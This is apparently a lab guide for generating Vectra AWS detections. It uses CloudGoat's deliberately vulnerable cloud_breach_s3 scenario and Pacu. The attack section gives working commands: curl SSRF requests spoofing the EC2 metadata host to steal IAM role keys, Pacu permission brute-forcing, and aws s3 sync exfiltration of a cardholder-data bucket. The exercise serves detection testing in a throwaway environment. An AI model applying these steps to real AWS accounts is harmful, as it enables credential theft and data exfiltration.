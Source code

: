 ************
Vectra DfAWS
************


Objective
#########

Quick attack to get account in critical quadrant (~20 minutes). -
Detections include - AWS Organization Discovery - AWS User Permissions
Enumeration - AWS Suspicious Credential Usage - AWS Suspicious EC2
Enumeration - AWS S3 Enumeration

.. figure:: ./images/critical.png
   :alt: critical

   critical

Guide Notes
###########

-  There are other ways to install the tools and will depend on distro.
-  Setting up the AWS profile may very based on an organizations
   requirements. For instance SSO would vary between org.

Requirments
###########

-  Linux or MacOS. Windows is not officially supported.

   -  If you are using Windows we recommand install
      `WSL2 <https://docs.microsoft.com/en-us/windows/wsl/install>`__
   -  If you are using a Linux virtual machine AWS EC2 is not supported
   -  In this guide a new Ubuntu VM was created in VM Fusion. This guide
      goes through setting up the Ubuntu VM.

-  Python3.6+ is required.
-  Terraform >= 0.14 installed and in your $PATH.
-  The AWS CLI installed and in your $PATH, and an AWS account with
   sufficient privileges to create and destroy resources.

   -  AWS `Named profile
      configured <https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-profiles.html>`__

Install system prerequisites (may already be installed)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

.. code:: bash

   sudo apt-get update && sudo apt install -y ssh vim net-tools curl git python3-pip 

Install tools for attack (may already be installed)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Install awscli

   -  Download the package

      .. code:: bash

         curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"

   -  Unzip the installer

      .. code:: bash

         unzip awscliv2.zip

   -  Run the install program

      .. code:: bash

         sudo ./aws/install

-  Install terraform

   -  Terraform Prerequisites

      .. code:: bash

         sudo apt-get update && sudo apt-get install -y gnupg software-properties-common

   -  Add the HashiCorp GPG key

      .. code:: bash

         curl -fsSL https://apt.releases.hashicorp.com/gpg | sudo apt-key add -

   -  Add the official HashiCorp Linux repository

      .. code:: bash

         sudo apt-add-repository "deb [arch=amd64] https://apt.releases.hashicorp.com $(lsb_release -cs) main"

   -  Update to add the repository, and install the Terraform CLI

      .. code:: bash

         sudo apt-get update && sudo apt-get install terraform

Install Cloudgoat
~~~~~~~~~~~~~~~~~

-  Use git to clone the Cloudgoat repo to home directory and change to
   the new directory
   ``bash      git clone https://github.com/RhinoSecurityLabs/cloudgoat.git ~/cloudgoat && cd ~/cloudgoat``
-  Install the Cloudgoat dependencies
   ``bash       pip3 install -r ./core/python/requirements.txt && chmod u+x cloudgoat.py``

Install Pacu
~~~~~~~~~~~~

-  Use git to clone the Pacu repo to home directory and change to the
   new directory
   ``bash      git clone https://github.com/RhinoSecurityLabs/pacu.git ~/pacu && cd ~/pacu``
-  Install the Pacu dependencies
   ``bash       pip3 install -r requirements.txt``

Setup AWS Profile
~~~~~~~~~~~~~~~~~

-  Setup AWS profile for Cloudgoat. This account will need admin access
   in AWS. This will create or add a new profile in ``~/.aws/config``
   and ``~/.aws/credentials``

-  You will be prompted for
   ``Access Key ID, AWS Secret Access Key, Default region name, Default output format``

   .. code:: bash

      aws configure --profile cloudgoat

-  Make the new aws profile your default

   .. code:: bash

      export AWS_PROFILE=cloudgoat

-  Verify credentials are working

   .. code:: bash

       aws sts get-caller-identity

   |awsprofile| ### Setup Cloudgoat

   -  Run Cloudgoat config profile from home directory and set default
      profile. You will be prompted to enter an AWS profile from the
      previous step which we called ``cloudgoat``. This is how cloudgoat
      will access AWS. ``bash  ~/cloudgoat/cloudgoat.py config profile``
   -  Run Cloudgoat config whitlelist
      ``bash  ~/cloudgoat/cloudgoat.py config whitelist --auto``

Setup vulnerable infrastructure with Cloudgoat
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Now that the tools are seutp we will use Cloudgoat to setup vulnerable
infastuecure in AWS. This will create a scenario with a misconfigured
reverse-proxy server in EC2.

-  Run the attack scenario
   ``bash      ~/cloudgoat/cloudgoat.py create cloud_breach_s3``

.. figure:: ./images/cloudgoatout.png
   :alt: Cloudgoat

   Cloudgoat

-  **Copy the response to a text file** you will need the EC2 IP

Start attack
~~~~~~~~~~~~

At this point we have created vulnerable infrastucute in AWS using
Cloudgoat. Starting as an anonymous outsider with no access or
privileges, exploit a misconfigured reverse-proxy server to query the
EC2 metadata service and acquire instance profile keys. Then, use those
keys to discover, access, and exfiltrate sensitive data from an S3
bucket.

-  Replace ``<ec2-ip-address>`` with the IP address from the previoues
   step to get a role name. **Copy the response to a text file** as you
   will need the role name for the next attack

.. code:: bash

   curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'

.. figure:: ./images/role.png
   :alt: role

   role

-  Replace ``<ec2-ip-address>`` and ``<ec2-role-name>`` from the
   previous steps to get the keys. **Copy response to text file** as you
   will need these stolen crendentials

.. code:: bash

   curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'

.. figure:: ./images/ssrf2.png
   :alt: ssrf2

   ssrf2

-  Next we will use pacu to do discovery with the stolen crendentials

   -  Start pacu from the shell session by running ``~/pacu/cli.py``
   -  Create new session in pacu named ``cloud_breach_s3``
   -  Set the keys using ``set_keys`` from the pacu session using the
      stolen credentials from the previous step

.. figure:: ./images/pacukeys.png
   :alt: pacukeys

   pacukeys

-  Use pacu to start disocvery using the following modules

   -  ``run aws__enum_account`` Get account details: permission denied
   -  ``run iam__enum_permissions`` Get permissions for IAM entity:
      permission denied
   -  ``run iam__enum_users_roles_policies_groups`` Get group polices
      for IAM entity: permission denied
   -  ``run iam__bruteforce_permissions`` Brute force for access to
      services: **BINGO!**

.. figure:: ./images/output.png
   :alt: output

   output

-  The stolen credentials have full access to S3

   -  Exit pacu by typing ``exit`` and return to attack

-  Create a new aws profile with stolen credentials

.. code:: bash

   aws configure --profile cloud_breach_s3

-  Set the ``AWS Access Key ID`` and ``AWS Secret Access Key`` using the
   stolen crendentials

-  Set the “Default region” name and the “Default output” format to
   ``json``

-  Manually add the ``aws_session_token`` to the aws credentails file
   (use i for insert mode then esc :wq to save and close)

   .. code:: bash

      vi  ~/.aws/credentials

   .. figure:: ./images/sestoken.png
      :alt: sestoken

      sestoken

-  List and search buckets the stolen credentails have access to
   ``bash  aws s3 ls --profile cloud_breach_s3`` |list|

-  Download data from the ``cardholder-data`` bucket to local system
   home directory. Replace ``<bucket-name>`` with the bucket to download
   data
   ``bash  aws s3 sync s3://<bucket-name> ~/cardholder-data --profile cloud_breach_s3``

-  Change to home directory and perfom list to verify data was
   downloaded ``bash  cd && ls`` |download|

-  Remove vulnerable infrasturecure
   ``bash  ~/cloudgoat/cloudgoat.py destroy cloud_breach_s3``

-  Attack had been completed. Review the detections in dfaws dashboard.

.. |awsprofile| image:: ./images/awsprofile.png
.. |list| image:: ./images/list.png
.. |download| image:: ./images/download.png

